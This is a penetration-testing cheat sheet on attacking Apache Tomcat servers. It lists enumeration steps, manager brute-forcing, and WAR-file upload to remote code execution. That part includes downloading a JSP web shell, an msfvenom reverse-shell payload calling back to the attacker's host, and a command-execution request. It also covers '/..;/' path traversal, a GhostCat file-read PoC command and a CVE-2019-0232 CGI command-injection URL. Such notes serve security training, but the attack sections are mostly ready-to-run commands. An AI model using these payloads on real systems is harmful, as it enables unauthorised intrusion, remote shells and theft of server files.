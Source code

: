 # Tomcat

## **Introduction**

The following schema represents a general folder structure of a Tomcat installation

```
├── bin ----------------------> The bin folder stores scripts and binaries needed to start and run a Tomcat server. 
├── conf ---------------------> The conf folder stores various configuration files used by Tomcat.
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml -----> Stores user credentials and roles. Allows/disallows access to /manager and /host-manager admin pages
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib ----------------------> The lib folder holds the various JAR files needed for the correct functioning of Tomcat.
├── logs ---------------------> The logs and temp folders store temporary log files
├── temp ---------------------> The logs and temp folders store temporary log files
├── webapps ------------------> The webapps folder is the default webroot of Tomcat and hosts all the applications.
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
|   ├── jsp
|   |   └── admin.jsp
|   └── web.xml --------------> Contains sensitive information. Stores information about the mechanisms underlying the application
|   └── lib
|   |    └── jdbc_drivers.jar
|   └── classes --------------> All compiled classes used by the application
|      └── AdminServlet.class  
|
└── work ---------------------> The work folder acts as a cache and is used to store data during runtime.
    └── Catalina
        └── localhost
```

***

## **Footprinting & Enumeration**

| Command                                                                                                                                                                                                                          | Description                                                      |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| <p>Browse to<br><em>http://test.example:8080/invalid</em></p>                                                                                                                                                                    | Requesting an invalid page should reveal the server and version  |
| _curl -s http://test.example:8080/docs/ \| grep Tomcat_                                                                                                                                                                          | Read the default documentation page and check the Tomcat version |
| Browse to _http://test.example:8080/manager_                                                                                                                                                                                     | Check if the `manager` (admin-only) page exists                  |
| <p>Browse to<br><em>http://test.example:8080/host-manager</em></p>                                                                                                                                                               | Check if the `host-manager` (admin-only) page exists             |
| [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)                                                                                                                           | Useful tool to quickly scan Tomcat instances                     |
| [https://raw.githubusercontent.com/nixawk/fuzzdb/refs/heads/master/discovery/applications/ApacheTomcat.fuzz.txt](https://raw.githubusercontent.com/nixawk/fuzzdb/refs/heads/master/discovery/applications/ApacheTomcat.fuzz.txt) | Useful wordlist to fuzz Tomcat instances                         |

***

## **Tomcat Manager Attacks**

> Having access to the `/manager` or `/host-manager` admin pages can help achieve `RCE` on the Tomcat server

1. **Login Bruteforcing:**
   * To attempt login bruteforcing, se the `auxiliary/scanner/http/tomcat_mgr_login` **Metasploit module**
   * Note: in case of errors, you might need to `set PROXIES http://127.0.0.1:8080` and **edit the requests** sent by the module with **BurpSuite**
2. **Tomcat Manager WAR File Upload to RCE**
   * Prerequisites: credentials of a user with the `manager-gui` role
   * **\[Automatically] - Metasploit:** `multi/http/tomcat_mgr_upload`
   * **\[Manually]** - Download JSP Web Shell: `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
   * Add the web shell to a WAR archive: `zip -r backup.war cmd.jsp`
   * **\[Alternative Payload]:** `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your-ip> LPORT=<your-nc-port> -f war > backup.war`
   * Navigate to `/manager/html` and **upload the previous WAR file containing the JSP WEB Shell**
   * Get RCE: `curl http://test.example:8080/backup/cmd.jsp?cmd=id`

***

## **Path Traversal via misconfigured Reverse Proxy**

In some vulnerable configurations of Tomcat you can gain access to protected directories in Tomcat using the path: `/..;/` or `/;param=value/`

{% hint style="info" %}
Tomcat will threat the sequence **`/..;/`** as **`/../`** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.\
This allows an attacker to access Apache Tomcat resources that are not normally accessible via the reverse proxy mapping.



You can read more about this misconfiguration [**here**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)
{% endhint %}

For example, you might be able to access the Tomcat manager page by navigating to&#x20;

`www.example.com/blabla/..;/manager/html`

Another way to bypass protected paths using this trick is to access

`www.example.com/;param=value/manager/html`

{% hint style="danger" %}
**Notice that this misconfiguration might not always give you access to the Tomcat manager, as it was patched to only allow the same host to access it, as explained by the error message below:**

_By default the Host Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Host Manager's context.xml file._&#x20;
{% endhint %}

***

## **Unauthenticated LFI - GhostCat**

> * Only works if the `port 8009` is running the `AJP` service
> * Only allows to read files and folders within the `webapps` folder

**Follow these steps:**

1. Use [https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
2. PoC: `python2.7 tomcat-ajp.lfi.py test.example -p 8009 -f WEB-INF/web.xml`

***

## **Attacking Tomcat-CGI \[Windows]**

> 1. What is a CGI Servlet?
>    * A CGI Servlet is a program that runs on a web server to support the execution of external applications that conform to the CGI specification.
>    * It is a middleware between web servers and external information resources like databases
> 2. How does CVE-2019-0232 work?
>    * CVE-2019-0232 is a critical security issue that could result in remote code execution.
>    * Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.
>    * This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled.
>    * An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, allowing to execute arbitrary commands on the affected system.

**Follow these steps:**

* Find any `.cmd` or `.bat` file inside the `cgi directory` by `extension fuzzing`
* Fuzzing `.cmd`: `ffuf -w /usr/share/dirb/wordlists/common.txt -u http://test.example:8080/cgi/FUZZ.cmd`
* Fuzzing `.bat`: `ffuf -w /usr/share/dirb/wordlists/common.txt -u http://test.example:8080/cgi/FUZZ.bat`
* After finding one such file, append `&command` to gain RCE (example: welcome.bat)
* `http://test.example:8080/cgi/welcome.bat?&dir`
* `Troubleshooting`: specify the `absolute path to the command`, or alternatively you might need to use `URL Encoding`
